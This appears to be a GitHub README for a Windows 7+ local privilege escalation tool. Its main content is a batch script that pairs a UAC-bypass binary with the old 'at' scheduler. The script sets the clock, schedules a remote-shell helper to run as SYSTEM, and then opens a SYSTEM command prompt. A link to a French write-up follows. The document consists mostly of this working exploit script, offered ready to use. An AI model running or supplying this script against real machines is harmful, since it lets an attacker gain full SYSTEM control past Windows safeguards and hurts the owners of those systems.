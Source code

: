 # LPE_AT-UAC
Windows 7+ Local Privilege Escalation AT - BypassUAC

How to open a local NT/SYSTEM prompt shell "cmd.exe" on Win7+ through the oldschool "at" method.

atuac.bat content :

```shell
@echo off
set BYPASSUACPATH=C:\bypassuac.exe
set REMOTEPATH=C:\remotex64.exe
set tmptime=%TIME%
%BYPASSUACPATH% /c time 13:37:57,44
%BYPASSUACPATH% /c at 13:38 %REMOTEPATH% /s cmd SYSCMD
ping 127.0.0.1 -n 3 > NUL
%BYPASSUACPATH% /c time %tmptime%
%REMOTEPATH% /c %COMPUTERNAME% SYSCMD
```

* Details (in french) :
    * https://www.asafety.fr/vuln-exploit-poc/windows-vista7-escalade-de-privilege-via-at-et-bypass-uac/

